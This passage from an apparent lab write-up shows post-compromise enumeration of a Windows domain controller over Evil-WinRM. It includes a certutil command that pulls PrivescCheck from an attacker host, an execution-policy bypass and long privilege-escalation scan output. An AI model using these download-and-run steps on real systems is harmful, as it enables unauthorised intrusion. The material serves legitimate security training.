*Evil-WinRM* PS C:\Users\M.harris\Documents> whoami /all

USER INFORMATION
----------------

User Name            SID
==================== ==============================================
infiltrator\m.harris S-1-5-21-2606098828-3734741516-3625406802-1105


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ==================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
INFILTRATOR\Protected Users                 Group            S-1-5-21-2606098828-3734741516-3625406802-525  Mandatory group, Enabled by default, Enabled group
INFILTRATOR\Developers                      Group            S-1-5-21-2606098828-3734741516-3625406802-1112 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity  Well-known group S-1-18-1                                       Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

Get the user flag first:

```cmd
*Evil-WinRM* PS C:\Users\M.harris\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\M.harris\Desktop> type user.txt
•••flag-redacted•••
```

## 6. Privilege escalation

### 6.1. [PrivescCheck](https://github.com/itm4n/PrivescCheck)

#### Prepare Kali

```sh
curl -Lo /var/www/html/PrivescCheck.ps1 https://github.com/itm4n/PrivescCheck/raw/master/PrivescCheck.ps1
```

#### Download and run on target

```cmd
*Evil-WinRM* PS C:\Users\M.harris\Documents> certutil.exe -urlcache -f -split http://10.10.14.35/PrivescCheck.ps1
****  Online  ****
  000000  ...
  02e523
CertUtil: -URLCache command completed successfully.
*Evil-WinRM* PS C:\Users\M.harris\Documents> Set-ExecutionPolicy Bypass -Scope CurrentUser
*Evil-WinRM* PS C:\Users\M.harris\Documents> Import-Module .\PrivescCheck.ps1
*Evil-WinRM* PS C:\Users\M.harris\Documents> Get-Module

ModuleType Version    Name                                ExportedCommands
---------- -------    ----                                ----------------
Manifest   3.1.0.0    Microsoft.PowerShell.Management     {Add-Computer, Add-Content, Checkpoint-Computer, Clear-Content...}
Manifest   3.0.0.0    Microsoft.PowerShell.Security       {ConvertFrom-SecureString, ConvertTo-SecureString, Get-Acl, Get-AuthenticodeSignature...}
Manifest   3.1.0.0    Microsoft.PowerShell.Utility        {Add-Member, Add-Type, Clear-Variable, Compare-Object...}
Script     0.0        PrivescCheck
```

<details><summary>Full PrivescCheck Output</summary>

```cmd
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0043 - Reconnaissance                           ┃
┃ NAME     ┃ User identity                                     ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Get information about the current user (name, domain name)   ┃
┃ and its access token (SID, integrity level, authentication   ┃
┃ ID).                                                         ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational


Name             : INFILTRATOR\M.harris
SID              : S-1-5-21-2606098828-3734741516-3625406802-1105
IntegrityLevel   : Medium Plus Mandatory Level (S-1-16-8448)
SessionId        : 0
TokenId          : 00000000-008b045e
AuthenticationId : 00000000-008b0431
OriginId         : 00000000-00000000
ModifiedId       : 00000000-008b0438
Source           : Kerberos (00000000-0000c7d3)


┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0043 - Reconnaissance                           ┃
┃ NAME     ┃ User groups                                       ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Get information about the groups the current user belongs to ┃
┃ (name, type, SID).                                           ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational

Name                                        Type           SID
----                                        ----           ---
INFILTRATOR\Domain Users                    Group          S-1-5-21-2606098828-3734741516-3625406802-513
Everyone                                    WellKnownGroup S-1-1-0
BUILTIN\Remote Management Users             Alias          S-1-5-32-580
BUILTIN\Users                               Alias          S-1-5-32-545
BUILTIN\Pre-Windows 2000 Compatible Access  Alias          S-1-5-32-554
BUILTIN\Certificate Service DCOM Access     Alias          S-1-5-32-574
NT AUTHORITY\NETWORK                        WellKnownGroup S-1-5-2
NT AUTHORITY\Authenticated Users            WellKnownGroup S-1-5-11
NT AUTHORITY\This Organization              WellKnownGroup S-1-5-15
INFILTRATOR\Protected Users                 Group          S-1-5-21-2606098828-3734741516-3625406802-525
INFILTRATOR\Developers                      Group          S-1-5-21-2606098828-3734741516-3625406802-1112
Authentication authority asserted identity  WellKnownGroup S-1-18-1
Mandatory Label\Medium Plus Mandatory Level Label          S-1-16-8448


┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0004 - Privilege Escalation                     ┃
┃ NAME     ┃ User privileges                                   ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether the current user is granted privileges that    ┃
┃ can be leveraged for local privilege escalation.             ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)

Name                          State   Description                    Exploitable
----                          -----   -----------                    -----------
SeMachineAccountPrivilege     Enabled Add workstations to domain           False
SeChangeNotifyPrivilege       Enabled Bypass traverse checking             False
SeIncreaseWorkingSetPrivilege Enabled Increase a process working set       False


┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0004 - Privilege Escalation                     ┃
┃ NAME     ┃ User privileges (GPO)                             ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether the current user is granted privileges,        ┃
┃ through a group policy, that can be leveraged for local      ┃
┃ privilege escalation.                                        ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0006 - Credential Access                        ┃
┃ NAME     ┃ User environment variables                        ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether any environment variables contain sensitive    ┃
┃ information such as credentials or secrets. Note that this   ┃
┃ check follows a keyword-based approach and thus might not be ┃
┃ completely reliable.                                         ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (nothing found)
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0004 - Privilege Escalation                     ┃
┃ NAME     ┃ Service list (non-default)                        ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Get information about third-party services. It does so by    ┃
┃ parsing the target executable's metadata and checking        ┃
┃ whether the publisher is Microsoft.                          ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational


Name        : OutputMessengerApache
DisplayName : Output Messenger - Apache
ImagePath   : "C:\Program Files\Output Messenger Server\Plugins\Output\apache2\bin\outputmessenger_httpd.exe" -k runservice
User        : LocalSystem
StartMode   : Automatic

Name        : OutputMessengerMySQL
DisplayName : Output Messenger - MySQL
ImagePath   : "C:\Program Files\Output Messenger Server\Plugins\Output\mysql\bin\outputmessenger_mysqld.exe" "--defaults-file=C:\Program Files\Output Messenger Server\Plugins\Output\mysql\my.ini" "OutputMessengerMySQL"
User        : LocalSystem
StartMode   : Automatic

Name        : OutputMessengerServer
DisplayName : Output Messenger Server
ImagePath   : "C:\Program Files\Output Messenger Server\OMServerService.exe"
User        : LocalSystem
StartMode   : Automatic

Name        : ssh-agent
DisplayName : OpenSSH Authentication Agent
ImagePath   : C:\Windows\System32\OpenSSH\ssh-agent.exe
User        : LocalSystem
StartMode   : Disabled

Name        : VGAuthService
DisplayName : VMware Alias Manager and Ticket Service
ImagePath   : "C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"
User        : LocalSystem
StartMode   : Automatic

Name        : vm3dservice
DisplayName : @oem8.inf,%VM3DSERVICE_DISPLAYNAME%;VMware SVGA Helper Service
ImagePath   : C:\Windows\system32\vm3dservice.exe
User        : LocalSystem
StartMode   : Automatic

Name        : VMTools
DisplayName : VMware Tools
ImagePath   : "C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"
User        : LocalSystem
StartMode   : Automatic


┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0004 - Privilege Escalation                     ┃
┃ NAME     ┃ Vulnerable Kernel drivers                         ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether known vulnerable kernel drivers are installed. ┃
┃ It does so by computing the file hash of each driver and     ┃
┃ comparing the value against the list provided by             ┃
┃ loldrivers.io.                                               ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
Warning: Service: vwifibus | Path not found: C:\Windows\System32\drivers\vwifibus.sys
[*] Status: Informational (not vulnerable)
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0004 - Privilege Escalation                     ┃
┃ NAME     ┃ Service permissions                               ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether the current user has any write permissions on  ┃
┃ a service through the Service Control Manager (SCM).         ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0004 - Privilege Escalation                     ┃
┃ NAME     ┃ Service registry permissions                      ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether the current user has any write permissions on  ┃
┃ the configuration of a service in the registry.              ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0004 - Privilege Escalation                     ┃
┃ NAME     ┃ Service image file permissions                    ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether the current user has any write permissions on  ┃
┃ a service's binary or its folder.                            ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0004 - Privilege Escalation                     ┃
┃ NAME     ┃ Service unquoted paths                            ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether there are services configured with an          ┃
┃ exploitable unquoted path that contains spaces.              ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0004 - Privilege Escalation                     ┃
┃ NAME     ┃ Service Control Manager permissions               ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether the current user has any write permissions on  ┃
┃ the Service Control Manager (SCM).                           ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0004 - Privilege Escalation                     ┃
┃ NAME     ┃ Scheduled task image file permissions             ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether the current user has any write permissions on  ┃
┃ a scheduled task's binary or its folder. Note that           ┃
┃ low-privileged users cannot list all the scheduled tasks.    ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0006 - Credential Access                        ┃
┃ NAME     ┃ Hive file permissions                             ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether the current user has read permissions on the   ┃
┃ SAM/SYSTEM/SECURITY files in the system folder               ┃
┃ (CVE-2021-36934 - HiveNightmare).                            ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0006 - Credential Access                        ┃
┃ NAME     ┃ Hive file shadow copy permissions                 ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether the current user has read permissions on the   ┃
┃ SAM/SYSTEM/SECURITY files stored in volume shadow copies     ┃
┃ (CVE-2021-36934 - HiveNightmare).                            ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0006 - Credential Access                        ┃
┃ NAME     ┃ Unattend file credentials                         ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether there are any 'unattend' files and whether     ┃
┃ they contain clear-text credentials.                         ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0006 - Credential Access                        ┃
┃ NAME     ┃ WinLogon credentials                              ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether the 'WinLogon' registry key contains           ┃
┃ clear-text credentials. Note that entries with an empty      ┃
┃ password field are filtered out.                             ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)
Warning: Check 'Vault credentials (creds)' is categorized as risky, but the option '-Risky' was not specified, ignoring...
Warning: Check 'Vault credentials (list)' is categorized as risky, but the option '-Risky' was not specified, ignoring...
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0006 - Credential Access                        ┃
┃ NAME     ┃ Group Policy Preference (GPP) credentials         ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether there are cached Group Policy Preference (GPP) ┃
┃ files that contain clear-text passwords.                     ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0006 - Credential Access                        ┃
┃ NAME     ┃ SCCM Network Access Account (NAA) credentials     ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether SCCM NAA credentials are stored in the WMI     ┃
┃ repository. If so, the username and password DPAPI blobs are ┃
┃ returned, but can only be decrypted using the SYSTEM's DPAPI ┃
┃ user key.                                                    ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0006 - Credential Access                        ┃
┃ NAME     ┃ SCCM cache folder credentials                     ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether the SCCM cache folders contain files with      ┃
┃ potentially hard coded credentials, or secrets, using basic  ┃
┃ keywords such as 'password', or 'secret'.                    ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0006 - Credential Access                        ┃
┃ NAME     ┃ LSA Protection                                    ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether LSA protection is enabled. Note that when LSA  ┃
┃ protection is enabled, 'lsass.exe' runs as a Protected       ┃
┃ Process Light (PPL) and thus can only be accessed by other   ┃
┃ protected processes with an equivalent or higher protection  ┃
┃ level.                                                       ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Vulnerable - Low


Key         : HKLM\SYSTEM\CurrentControlSet\Control\Lsa
Value       : RunAsPPL
Data        : (null)
Description : LSA Protection is not enabled.


┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0006 - Credential Access                        ┃
┃ NAME     ┃ Credential Guard                                  ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether Credential Guard is supported and enabled.     ┃
┃ Note that when Credential Guard is enabled, credentials are  ┃
┃ stored in an isolated process ('LsaIso.exe') that cannot be  ┃
┃ accessed, even if the kernel is compromised.                 ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)


SecurityServicesConfigured  : (null)
SecurityServicesRunning     : (null)
SecurityServicesDescription : Credential Guard is not supported.
LsaCfgFlagsPolicyKey        : HKLM\SOFTWARE\Policies\Microsoft\Windows\DeviceGuard
LsaCfgFlagsPolicyValue      : LsaCfgFlags
LsaCfgFlagsPolicyData       : (null)
LsaCfgFlagsKey              : HKLM\SYSTEM\CurrentControlSet\Control\LSA
LsaCfgFlagsValue            : LsaCfgFlags
LsaCfgFlagsData             : (null)
LsaCfgFlagsDescription      : Credential Guard is not configured.


┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0008 - Lateral Movement                         ┃
┃ NAME     ┃ LAPS                                              ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether LAPS is configured and enabled. Note that this ┃
┃ applies to domain-joined machines only.                      ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Vulnerable - Medium


Policy      : Enable local admin password management (LAPS legacy)
Key         : HKLM\Software\Policies\Microsoft Services\AdmPwd
Default     : 0
Value       : (null)
Description : The local administrator password is not managed (default).

Policy      : LAPS > Configure password backup directory
Key         : HKLM\Software\Microsoft\Policies\LAPS
Default     : 0
Value       : (null)
Description : The local administrator password is not backed up (default).


┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0001 - Initial Access                           ┃
┃ NAME     ┃ BitLocker configuration                           ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether BitLocker is enabled on the system drive and   ┃
┃ requires a second factor of authentication (PIN or startup   ┃
┃ key). Note that this check might yield a false positive if a ┃
┃ third-party drive encryption software is installed.          ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
Warning: TpmGetDeviceInformation KO 0x8028400F
[*] Status: Informational (not vulnerable)


MachineRole : Domain Controller
TpmPresent  :
Description : Not a workstation, BitLocker configuration is irrelevant.


┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0004 - Privilege Escalation                     ┃
┃ NAME     ┃ PATH folder permissions                           ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether the current user has any write permissions on  ┃
┃ the system-wide PATH folders. If so, the system could be     ┃
┃ vulnerable to privilege escalation through ghost DLL         ┃
┃ hijacking.                                                   ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0004 - Privilege Escalation                     ┃
┃ NAME     ┃ Known ghost DLLs                                  ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Get information about services that are known to be prone to ┃
┃ ghost DLL hijacking. Note that their exploitation requires   ┃
┃ the current user to have write permissions on at least one   ┃
┃ system-wide PATH folder.                                     ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational


Name           : cdpsgshims.dll
Description    : Loaded by the Connected Devices Platform Service (CDPSvc) upon startup.
RunAs          : NT AUTHORITY\LocalService
RebootRequired : True
Link           : https://nafiez.github.io/security/eop/2019/11/05/windows-service-host-process-eop.html

Name           : WptsExtensions.dll
Description    : Loaded by the Task Scheduler service (Schedule) upon startup.
RunAs          : LocalSystem
RebootRequired : True
Link           : http://remoteawesomethoughts.blogspot.com/2019/05/windows-10-task-schedulerservice.html

Name           : SprintCSP.dll
Description    : Loaded by the Storage Service (StorSvc) when the RPC procedure 'SvcRebootToFlashingMode' is invoked.
RunAs          : LocalSystem
RebootRequired : False
Link           : https://github.com/blackarrowsec/redteam-research/tree/master/LPE%20via%20StorSvc

Name           : wlanapi.dll
Description    : Loaded by the Network Connections service (NetMan) when listing network interfaces.
RunAs          : LocalSystem
RebootRequired : False
Link           : https://itm4n.github.io/windows-server-netman-dll-hijacking/


┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0004 - Privilege Escalation                     ┃
┃ NAME     ┃ AlwaysInstallElevated                             ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether the 'AlwaysInstallElevated' policy is enabled  ┃
┃ system-wide and for the current user. If so, the current     ┃
┃ user may install a Windows Installer package with elevated   ┃
┃ (SYSTEM) privileges.                                         ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)


LocalMachineKey   : HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
LocalMachineValue : AlwaysInstallElevated
LocalMachineData  : (null)
Description       : AlwaysInstallElevated is not enabled in HKLM.


┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0008 - Lateral Movement                         ┃
┃ NAME     ┃ WSUS configuration                                ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether WSUS uses the HTTPS protocol to retrieve       ┃
┃ updates from the on-premise update server. If WSUS uses the  ┃
┃ clear-text HTTP protocol, it is vulnerable to MitM attacks   ┃
┃ that may result in remote code execution as SYSTEM.          ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)


Key         : HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate
Value       : WUServer
Data        : (null)
Description : No WSUS server is configured (default).

Key         : HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\AU
Value       : UseWUServer
Data        : (null)
Description : WSUS server not enabled (default).

Key         : HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate
Value       : SetProxyBehaviorForUpdateDetection
Data        : (null)
Description : Proxy fallback not configured (default).

Key         : HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate
Value       : DisableWindowsUpdateAccess
Data        : (null)
Description : Windows Update features are enabled (default).


┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0008 - Lateral Movement                         ┃
┃ NAME     ┃ Hardened UNC paths                                ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether sensitive UNC paths are properly hardened.     ┃
┃ Note that non-hardened UNC paths used for retrieving group   ┃
┃ policies can be hijacked through an MitM attack to obtain    ┃
┃ remote code execution as SYSTEM.                             ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)
